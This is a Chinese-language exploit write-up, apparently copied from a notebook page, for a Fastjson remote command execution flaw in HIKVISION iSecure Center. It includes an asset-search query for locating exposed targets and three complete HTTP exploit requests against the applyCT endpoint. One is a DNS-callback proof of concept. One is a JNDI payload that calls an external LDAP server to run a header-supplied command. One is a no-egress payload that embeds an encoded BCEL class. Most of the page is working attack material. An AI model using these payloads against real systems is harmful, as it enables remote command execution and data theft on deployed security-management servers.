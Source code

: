 # 海康威视iSecure Center 综合安防管理平台存在applyCT Fastjson命令执行漏洞

# 1、漏洞描述
<font style="color:rgb(0, 0, 0);">  HIKVISION iSecure Center综合安防管理平台是一套“集成化”、“智能化”的平台，通过接入视频监控、一卡通、停车场、报警检测等系统的设备，获取边缘节点数据，实现安防信息化集成与联动，以电子地图为载体，融合各系统能力实现丰富的智能应用。HIKVISION iSecure Center平台基于“统一软件技术架构”先进理念设计，采用业务组件化技术，满足平台在业务上的弹性扩展。该平台适用于全行业通用综合安防业务，对各系统资源进行了整合和集中管理，实现统一部署、统一配置、统一管理和统一调度。海康威视综合安防管理平台存在Fastjson远程命令执行漏洞，该漏洞可执行系统命令，可获取到目标服务器系统权限以及敏感数据信息。</font>

# <font style="color:rgb(0, 0, 0);">2、影响版本</font>
<font style="color:rgb(0, 0, 0);">HIKVISION iSecure Center综合安防管理平台 </font>

![1691858074532-d7e7b422-fc8a-427d-9b7f-894a9c84d5ab.png](./img/3xCBZzWVsmcOpFHe/1691858074532-d7e7b422-fc8a-427d-9b7f-894a9c84d5ab-663441.png)

# <font style="color:rgb(0, 0, 0);">3、资产测绘</font>
**hunter查询语法：**

`<font style="color:rgb(0, 0, 0);">app.name=="Hikvision 海康威视 iSecure Center"</font>`

# <font style="color:rgb(0, 0, 0);">4、漏洞复现</font>
poc：

```plain
POST /bic/ssoService/v1/applyCT HTTP/1.1
Host: *
User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36
Content-Length: 5727
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/json

{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://mmmm.dns.cn","autoCommit":true},"hfe4zyyzldp":"="}
```

![1690419004626-3f5d2594-92fb-4d51-86de-d33904a00e90.png](./img/3xCBZzWVsmcOpFHe/1690419004626-3f5d2594-92fb-4d51-86de-d33904a00e90-440368.png)

exp：

出网情况下可利用JNDIExploit

```plain
POST /bic/ssoService/v1/applyCT HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/css,*/*;q=0.1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type:application/json
cmd:whoami
Content-Length: 215

{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://1.2.3.4:1389/Basic/TomcatEcho","autoCommit":true},"hfe4zyyzldp":"="}
```

![1690419116802-6e162ab9-8b94-4f6c-806f-2097f8e233e4.png](./img/3xCBZzWVsmcOpFHe/1690419116802-6e162ab9-8b94-4f6c-806f-2097f8e233e4-541729.png)

不出网状况下通过org.apache.tomcat.dbcp.dbcp2.BasicDataSource

```plain
POST /bic/ssoService/v1/applyCT HTTP/1.1
Host: *
User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36
Content-Length: 5727
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/json
Referer: *
Testcmd: whoami

{"CTGT":{ "a": {"@type": "java.lang.Class","val": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource"},"b": {"@type": "java.lang.Class","val": "com.sun.org.apache.bcel.internal.util.ClassLoader"},"c": {"@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource","driverClassLoader": {"@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"},"driverClassName": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$a5Wyx$Ug$Z$ff$cd$5e3$3b$99$90dCB$W$uG$N$b09v$b7$a1$95B$c2$99$90$40J$S$u$hK$97P$db$c9$ec$q$3bd3$Tfg$J$a0$b6$k$d4$D$8fZ$8f$daPO$b4$ae$b7P$eb$s$U9$eaA$b1Z$8fzT$ad$d6zk$f1$f6$8f$da$f6$B$7c$bf$99$N$d9$84$ad$3c$3e$sy$be$f9$be$f7$7b$ef$f7$f7$be3y$fc$e2$p$a7$A$dc$80$7f$89$Q1$m$60P$84$PI$b6h$Cv$f3$Y$e2$91$f2$a3$E$c3$8c$a4$f30x$8c$88t$de$p$c2D$9a$JY$C2$ecr$_$8fQ$B$fb$E$ec$e7q$80$R$5e$c3$e3$b5$ec$f9$3a$R$d5$b8S$c4$5dx$3d$5b$de$m$e2$8dx$T$5b$O$K$b8$5bD7$de$cc$e3$z$ec$fcV$Bo$T$d1$84C$C$de$$$e0$j$3c$de$v$e0$5d$C$ee$R$f0n$k$f7$Kx$P$8f$f7$96$a0$B$efc$cb$fb$F$dc$t$e0$D$C$ee$e71$s$e00$T$bc$93$z$P$I$f8$a0$80$P$J$f8$b0$80$8f$88$f8$u$3e$c6$a8G$E$7c$5c$c0$t$E$3c$u$e0$93$C$b2$3c$3e$c5$e3$d3$o6$e03l$f9$ac$88$cf$e1$f3$o$d6$e3$L$C$be$c8$9eG$d9r$8c$89$3e$c4$7c$fc$S$d3$f4$b0$88$_$p$c7c$9c$83o$b5$a6k$d6Z$O$eeP$dd$z$i$3cmFB$e5P$d6$a5$e9jOf$b8_5$7b$e5$fe$UQ$fc$a3$a6f$a9$adFb$3f$879$a1$ae$dd$f2$5e9$9a$92$f5$c1$e8$d6$fe$dd$aab$b5$f4$b52$f1$d2$98$r$xC$dd$f2$88$zE$89$a4$U$da$b9$k$e2$m$b6$efS$d4$RK3$f44$H$ef$a0ju$90$c0$ca$o$aa$K$u1$cb$d4$f4$c1$96$ba$x$99xLPY8$I$ab$95$94$j$B$8f$e3$94$40$ca$_$r$97$c7$pd$_fdLE$ed$d0$98$fbe$bd$c6$b0$o$5b$edJ$d2$880$5d$Sz$b0$95C$ada$OF$e4$RYI$aa$R$cb$e6$88d$y$z$V$e9$cf$MDZ$f7$5bj$5b2$a3$PI8$81$afH8$89Sd$$$adZ$ec$82B$u$9b$f2$a9$z$r$a7$89$e2$eak$95p$gg$q$3c$8a$afr$u$9f$e94$87$8a$vR$a7n$a9$83$aa$c9$i$f9$g$8f$afK$f8$G$ceJx$M$e78$f0$Jc$H$cb$b6$84o2$3d$8bf$Y$ea1$ac$O$p$a3$t$$$e7$93C$rc$89$e8$9aa$7b$dd$9a$Z$YPM$w$e6$a8$v$8fpX8$r$dfc$c42J$b2$5b$b5$92$c6$94$b8$84$c7$f1$z$O$Lf$b2uhj$aa$90$eb$db8$c7$bc$7d$82R$_$e1$3b$f8$ae$84$ef$e1$fb$94v$JO$e2$H$S$7e$88$l$91$ebV$d2T$e5DZ$c2N$f4$91_$7d$F$95$eb$b5$afZ$q$fc$YO$91s$ea$3eU$91$f0$T$fc$94$f6I$cb$oG$7d$96l$S$$8$E$a6$84$b6gt$ddA$a0$cfJj$e9$da$eb$c8FR$d6$T$v$W$a0o0e$f4$cb$a9$7c$fc$8e$40AV$c4$R$d3P$d4t$da0$a98$b3l$WV$ddh$97$96$b6$q$fc$MO$b3$I$7eN$d07$d5$3d$iJ$c8$f4v5$3dB$f8dx$a7$d3fr$97$99$v$9f$JH$c2A$af$9a$b6TB$93$84_$e0$Zb$t$5c$Q$f6$ad$MY$f2$cb$89$c4$a4$u$cf$f8$94$e1$E$ed$8ctD$97$87$a9$v$7e$v$e1Y$fcJ$c2$afY$g$7c$a3$9a$9e0F$e9$9e$b8$o$94$T$82QT$a1c$b4_$d3$a3$e9$q$j$c3$ca$qpl$efc$8a$ac$ebLw$cd$94$5b$db$9c$40$5b3Z$w$e1$60$ea7$S$7e$8b$df$f1$f8$bd$84$3f$e0$8f$8c$f2$tR$b5k$83$84$e7p$5e$c2$9f$f1$94$84$bf$e0$af$S$b6$p$s$e1o$f8$3b$8f$7fH$f8$tsi$9eb$MG$H$e4$b4$b5$3bm$e8$d1$bd$99Tt$aay$a8$f9$a7$ac$9a$ea$40$8a$60$j$b5$812$zMN$a9g$d4$3f$df$cc$U$db$80a$f6P$w8$y$J$fd$f7f$b7$f1N$S$r$ba$3a$da$a9$a7$zYWHjv$a8$c8$40$m$U$f5$c6$b7$b5S$aa$8a$c8WP57$aaJJ6$d5$84$83$7e$O$eb$8b$d8$ee$bbB$b6$d0$d2d$bc$8e$Gf1$d4$c9$a6$5e$cd$cb$b1Py5$7d$af1D$3e$af$w63$af$q$V$NL$m$ef$f3$p$a62T$y$3d$M$ac$93$W$cb$LB$cd$X$s$7c$95$yO$ab$p$a9$x$r$V$b1$cc$88j$w$8e$d1$aab$f2l$da$T$e87$u$Mx$9a$dd$a1$9e$d0NFv$db$3d$bc$b4H$c0E$a3$xU2$a6$a9$ea$d6$qf$a6W7$3f4$a8$7fI$abs$d8d$g$Z$9a$W$c1$o$7c$f6$VC$Y1$3b$I$9b$ae$ed2$E$F$c5$d0$zYc$af$a2y$85$8e$b6$re3$a6$ee$c9$a8$E$b4$96$ba$9d$USZ$3b$a0$dao$c7N$96$88$ce$a2$n$f0Z$ba$7dx$c4$dao$f3$ed$9c$3e0$f6$d3$9c$Yv$a6$Lu$v$r$95$b1$z$bdJE$$$fbYb$Z$5d$c6$a8j$b6$c9l$uU$87$8a$f4$TK$b9$97Z$c3$b4$98$83$85Z$f2S$a1e$da$7b$tOt$S$da$a9$8fdhnQ$ea$86$d9k$3d$_$ac$Z$d1$82$L$S$af$J$V$bd$60$96$a5LZ$dd$a8$a6$b4az_$d1LZ$f6$f2$81$V$O$_$d6$3b$ba$ba$cfr$b0$9d$7f$a1zBu$7d$ad$O$fa$f2$99$d2$Y$b9$sT$a8$60$ea$86t$cc$$F$t$9d$96$e1$98$c6b$fa$e2$R$c1$7e$3c$e0$d8$x$9f$d6mt$ba$86$9e$i$3d$bd$f5$e3$e0$8e$d1$86$c3$cd$b4$fa$i$o$89$d0T$84$8b$b1r$a3$f4$91$e8$r$ea$8b$B$d7$E$dc$3d$e1$i$3c$dd$e1$80$d7w$S$be$b8$3b$c0$c7$e2$9e$87$m$c4$e2$5e$b6$e6$e0o$f4$9e$84$Yw7$Q$dd$d9$9d$40I$dc$3d$O$89$Il$dbp$8a$ed$89$b3tG$7d$O$b3$Ce$k$5bQ$98$u$e5$f5$k$5b$a2$d1$be$cd$e2P$b3$t$Q$b0m$G$w$3d$93$e6$c8D$d8$937Al$ddWS$d2$fe$ff$x9F$99$A$M$faN$ae$b0$9f$e3$98M$U$96$af$b5$u$a3$b5$83$f2$b6$89$b2$b4$99h$9dt$bf$9d8o$82$85$z8$80$$$dcG$rx$98h$e3$94$fe$e3T$80$d3$94$d5$a7$89$f3$F$f4$d2$_0$H$ee$e7a$f2x$d5$f3$d8$c8$e3$96$L$d8$c0c$H$8f$5b$R$cfW$ad$8e$caA$l$TN9$f0$A$dcv9Vr$b6$d7$U$96$f8$m$aa$c3$N9TugQ$da$ec$a1$C$cd$e9$c9$5ez$ae$f11H$tP$jo$YG$cd$e9FO$O$c1F$S$98$7b$944$96$a2$92$be$e4$ab$f3A$y$87D$eb$O$3a$dd$K$9e$y$95b$X$dd$dfF$f7$afF$Nn$t$ac$dc$81EPP$8b$E$c2$Y$m$feA$db$f1$Kx$$$80$e7$b1$8b$9c$ed$e1q$9b_$wpY$m$e1$3c$d8$dc$s$9dJ$A$d7$cd$ee$96$J$cc$cba$7e$e0$9a$J$y8$83$85$f4$d7$e5$5e3$bf$e1$d4$R$d7$f5$N$f3$97$f7$84$cf$ba$96$90$fb$8b$9a$3dAO$60q$O$d7$kvU$d1$ee$V$b4$hs$95$84$D$b5$q$d6$ec$Nz$l$c5$921$ee$a5$a07$b0$94$I$81el$J$d9WY$I$cd$be$y$f7$y$5d$d5$db$s$g$9a$7d$ee$V$7c$V$l$f4$jG$p$87$p$dc$a9$a0$af$8a$3f$8e$b0$L$cdBP$ID$f2$gY$fd$a3n$aa$3f$d5$3e$e8$a5$8dH$85o$f6$3b$X$d7$e5q$d3$U$b3o$3dyX7$c5$D$cb$c7q$3d$83$c8$Z41$9f$cfb$uH$89$be$e10$94$a0$9fI$be$d2$91tZ$a3$3c$e8$f7$5c$ee$88$K$9cc$7d$c0$e0$e5$b0$ae$f0N$g$89$7b$f2$96$fc$de$Z$96$e2d$c3$W$f1$b4$5c$cd$b3$hgz6$96$f7$ec$de$ff$c1$b3$c0$ca$J$ac$ca$a19$d0$c2$w$80$m$f5$7c$TY$5b$cd$5c$5cC$zO$dedQ$9d$a7$aee$d4u$O$b5Y$M$faO$60$7d$fc$E6$c4$83$e28Zsh$cba$e38$da$D$j9l$caas$O$9d$T$b8$89$e2$m$d7Jl$d7$c6P5w$M$VA$ff$E$b6$e4$d0$e50$Q$c5$97$85$ff$m$cfe$_$ae$9e$3c$b8$b8$ec$85$t$b2$f0la$8d$d9$D$99pYG$f0$earm$a5$a7$83$e9$p$I$d1$w$d0$c9O$cdZ$82$f9$84$f1E$84$ecZ$ccB$3d5$edZ$94S$dbV$90t$r$c9W$93$86$d9$84$ec$wh$84$f8$M$e6$e2$m$e6$e1$k$92$ba$9f$d0$7f$M$L$f0$M$W$e2$3c$Wq$d5X$ccu$e2Zn$L$96p$fb$b0$94$bb$h$cb$b8$a3$Iq$e7Q$e7$aa$40$bd$ab$92$90U$8b$88k9$9a$5c$x$b0$dc$b5$Ks$5d$eb$b0$c2$d5$86$h$5d$j$uqua$jy$b9$c6$b5$8d$feU$ed$b5$bb$ae$fc$o$aa9$k$L$b9K4$t$7c$f6$8e$c7$ed$3c$ee$a0$v$A$da$ca$d4d$b3x$f4s$X$f0$a4$3d$Yv$bc$84C$dby$uuR$c5$L$f0$bd$I$ef$r$g$3fn$5b$Q$f87$bc$ad$q$c3$e6y$82$d4$bb$a0$fe$H$d8$3e$ebc$Z$Q$A$A"}}}
```

![1690419352458-1d78909f-8493-410c-89ec-acc1ec64a406.png](./img/3xCBZzWVsmcOpFHe/1690419352458-1d78909f-8493-410c-89ec-acc1ec64a406-127490.png)



> 更新: 2024-02-29 23:57:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/yvgfr4gvmvbionwq>